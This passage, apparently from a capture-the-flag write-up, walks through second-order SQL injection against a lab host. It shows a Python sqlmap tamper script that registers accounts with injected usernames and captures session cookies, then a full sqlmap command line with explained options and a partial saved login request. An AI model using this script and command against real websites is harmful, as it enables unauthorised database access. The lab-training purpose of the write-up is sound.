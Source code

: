         # register with username = payload
        # user=a%27%29+--+-&pass=df&register=Register
        post_data = { 'user':payload, 'pass':'df', 'register':'Register' }
        proxies = { 'http':'http://127.0.0.1:8080' }
        response = s.post("http://10.10.10.66/register.php", data=post_data, proxies=proxies)
        # get cookie
        #Set-Cookie: PHPSESSID=l5vdi7j5gq6g978bor44fndt80; path=/
        php_cookie = re.search('PHPSESSID=(.*?);', response.headers['Set-Cookie']).group(1)

        return "PHPSESSID={0}".format(php_cookie)

    def tamper(payload, **kwargs):
        headers = kwargs.get("headers", {})
        headers["Cookie"] = create_account(payload)
        return payload



#### sqlmap Command Line

We'll accomplish steps 2) and 3) with options at the `sqlpmap` command
line:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080



Options:

-   `--technique=U` - `sqlmap` will try six different classes of sqli
    attack: \[B\]oolean-based, \[E\]rror-based, \[U\]nion-based,
    \[S\]tacked queries, \[T\]imebased queries, and Inline \[Q\]ueries.
    By default, it's `BEUSTQ`, but since we already showed in the manual
    work that we'll be using a union attack, we'll reduce the number of
    checks

-   `-r login.request` - a request saved out of burp, making sure
    there's no PHPSESSID cookie, and that the password is the same as
    our tamper script:

    <div>

    <div>

        POST /index.php HTTP/1.1
        Host: 10.10.10.66
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
        Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Referer: http://10.10.10.66/index.php
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 37
        Connection: close
        Upgrade-Insecure-Requests: 1
